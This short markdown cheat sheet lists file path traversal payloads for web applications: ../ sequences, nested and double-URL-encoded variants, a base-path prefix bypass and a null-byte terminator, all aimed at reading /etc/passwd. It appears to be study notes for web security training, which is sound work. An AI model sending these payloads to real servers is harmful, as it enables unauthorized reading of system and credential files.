 ## File path traversal, Directory traversal

### Step up multiple levels

On Unix/linux ../../

On Windows both ../ and ..\

### Absolute path
/etc/passwd

### Nested traversal sequences
....// or ....\/

### URL decode or double decode
..%252f..%252f..%252fetc/passwd

### Incude required base path
/var/www/images/../../../etc/passwd

### Null byte to terminate stirng
../../../etc/passwd%00.png

